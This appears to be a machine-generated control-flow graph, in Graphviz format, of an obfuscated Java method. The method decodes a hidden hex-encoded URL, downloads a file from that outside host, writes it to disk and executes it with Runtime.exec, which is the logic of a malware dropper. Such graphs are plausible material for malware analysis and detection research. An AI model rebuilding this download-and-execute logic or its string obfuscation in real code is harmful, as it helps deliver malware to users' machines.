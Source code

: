 digraph "" {
    "r0 := @this: Java"
    "load.r r0"
    "r0 := @this: Java"->"load.r r0";
    "fieldget <Java: java.lang.String[] JEIKF>"
    "load.r r0"->"fieldget <Java: java.lang.String[] JEIKF>";
    "store.r r42"
    "fieldget <Java: java.lang.String[] JEIKF>"->"store.r r42";
    "load.r r42"
    "store.r r42"->"load.r r42";
    "arraylength"
    "load.r r42"->"arraylength";
    "store.i i0"
    "arraylength"->"store.i i0";
    "push 0"
    "store.i i0"->"push 0";
    "store.i i2"
    "push 0"->"store.i i2";
    "load.i i2"
    "store.i i2"->"load.i i2";
    "load.i i0"
    "load.i i2"->"load.i i0";
    "ifcmpge.i load.r r0"
    "load.i i0"->"ifcmpge.i load.r r0";
    "ifcmpge.i load.r r0"->"load.r r42";
    "load.r r42"->"load.i i2";
    "arrayread.r"
    "load.i i2"->"arrayread.r";
    "store.r r1"
    "arrayread.r"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "ifnull inc.i i2 1"
    "load.r r1"->"ifnull inc.i i2 1";
    "new java.io.File"
    "ifnull inc.i i2 1"->"new java.io.File";
    "dup1.r"
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r1";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "load.r r1"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean exists()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq inc.i i2 1"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq inc.i i2 1";
    "ifeq inc.i i2 1"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] JEIKF>";
    "fieldget <Java: java.lang.String[] JEIKF>"->"push 0";
    "push 0"->"load.r r1";
    "virtualinvoke <java.lang.String: java.lang.String toString()>"
    "load.r r1"->"virtualinvoke <java.lang.String: java.lang.String toString()>";
    "arraywrite.r"
    "virtualinvoke <java.lang.String: java.lang.String toString()>"->"arraywrite.r";
    "goto load.r r0"
    "arraywrite.r"->"goto load.r r0";
    "goto load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] JEIKF>";
    "fieldget <Java: java.lang.String[] JEIKF>"->"push 0";
    "push 0"->"arrayread.r";
    "ifnull push 0"
    "arrayread.r"->"ifnull push 0";
    "ifnull push 0"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] JEIKF>";
    "fieldget <Java: java.lang.String[] JEIKF>"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq push 0"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq push 0";
    "new java.io.FileOutputStream"
    "ifeq push 0"->"new java.io.FileOutputStream";
    "store.r i0"
    "new java.io.FileOutputStream"->"store.r i0";
    "load.r i0"
    "store.r i0"->"load.r i0";
    "load.r i0"->"load.r r0";
    "fieldget <Java: java.lang.String HDK>"
    "load.r r0"->"fieldget <Java: java.lang.String HDK>";
    "fieldget <Java: java.lang.String HDK>"->"virtualinvoke <java.lang.String: java.lang.String toString()>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String toString()>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.lang.String)>"->"load.r i0";
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"
    "load.r i0"->"virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>";
    "new java.net.URL"
    "virtualinvoke <java.io.FileOutputStream: java.nio.channels.FileChannel getChannel()>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "new java.lang.StringBuilder"
    "dup1.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "push \"6[>|<]8[>|<]7[>|<]4[>|<]7[>|<]4[>|<]7[>|<]0[>|<]3[>|<]a[>|<]2[>|<]f[>|<]2[>|<]f[>|<]6[>|<]a[>|<]6[>|<]1[>|<]7[>|<]6[>|<]6[>|<]1[>|<]3[>|<]7[>|<]2[>|<]e[>|<]7[>|<]5[>|<]7[>|<]3[>|<]2[>|<]f[>|<]6[>|<]6[>|<]6[>|<]c[>|<]6[>|<]1[>|<]7[>|<]3[>|<]6[>|<]8[>|<]6[>|<]7[>|<]6[>|<]3\""
    "load.r r0"->"push \"6[>|<]8[>|<]7[>|<]4[>|<]7[>|<]4[>|<]7[>|<]0[>|<]3[>|<]a[>|<]2[>|<]f[>|<]2[>|<]f[>|<]6[>|<]a[>|<]6[>|<]1[>|<]7[>|<]6[>|<]6[>|<]1[>|<]3[>|<]7[>|<]2[>|<]e[>|<]7[>|<]5[>|<]7[>|<]3[>|<]2[>|<]f[>|<]6[>|<]6[>|<]6[>|<]c[>|<]6[>|<]1[>|<]7[>|<]3[>|<]6[>|<]8[>|<]6[>|<]7[>|<]6[>|<]3\"";
    "virtualinvoke <Java: java.lang.String FJOKL(java.lang.String)>"
    "push \"6[>|<]8[>|<]7[>|<]4[>|<]7[>|<]4[>|<]7[>|<]0[>|<]3[>|<]a[>|<]2[>|<]f[>|<]2[>|<]f[>|<]6[>|<]a[>|<]6[>|<]1[>|<]7[>|<]6[>|<]6[>|<]1[>|<]3[>|<]7[>|<]2[>|<]e[>|<]7[>|<]5[>|<]7[>|<]3[>|<]2[>|<]f[>|<]6[>|<]6[>|<]6[>|<]c[>|<]6[>|<]1[>|<]7[>|<]3[>|<]6[>|<]8[>|<]6[>|<]7[>|<]6[>|<]3\""->"virtualinvoke <Java: java.lang.String FJOKL(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "virtualinvoke <Java: java.lang.String FJOKL(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <Java: java.lang.String[] FCKME>"
    "load.r r0"->"fieldget <Java: java.lang.String[] FCKME>";
    "push 29"
    "fieldget <Java: java.lang.String[] FCKME>"->"push 29";
    "push 29"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.io.InputStream openStream()>";
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"
    "virtualinvoke <java.net.URL: java.io.InputStream openStream()>"->"staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>";
    "push 0L"
    "staticinvoke <java.nio.channels.Channels: java.nio.channels.ReadableByteChannel newChannel(java.io.InputStream)>"->"push 0L";
    "push 16777216L"
    "push 0L"->"push 16777216L";
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"
    "push 16777216L"->"virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>";
    "pop"
    "virtualinvoke <java.nio.channels.FileChannel: long transferFrom(java.nio.channels.ReadableByteChannel,long,long)>"->"pop";
    "pop"->"load.r i0";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r i0"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "dup1.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] JEIKF>";
    "fieldget <Java: java.lang.String[] JEIKF>"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "fieldget <Java: java.lang.String HKD>"
    "load.r r0"->"fieldget <Java: java.lang.String HKD>";
    "fieldget <Java: java.lang.String HKD>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq push 0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "ifeq push 0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String[] JEIKF>";
    "fieldget <Java: java.lang.String[] JEIKF>"->"push 0";
    "push 0"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r0";
    "load.r r0"->"fieldget <Java: java.lang.String HKD>";
    "fieldget <Java: java.lang.String HKD>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"ifnull push 0";
    "ifnull push 0"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto goto goto return"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto goto goto return";
    "goto goto return"
    "goto goto goto return"->"goto goto return";
    "goto return"
    "goto goto return"->"goto return";
    "return"
    "goto return"->"return";
    "store.r r0"
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "ifnull push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "staticinvoke <java.lang.System: void exit(int)>"->"goto goto goto return";
    "ifeq push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "ifeq push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "inc.i i2 1"
    "ifeq inc.i i2 1"->"inc.i i2 1";
    "goto load.i i2"
    "inc.i i2 1"->"goto load.i i2";
}
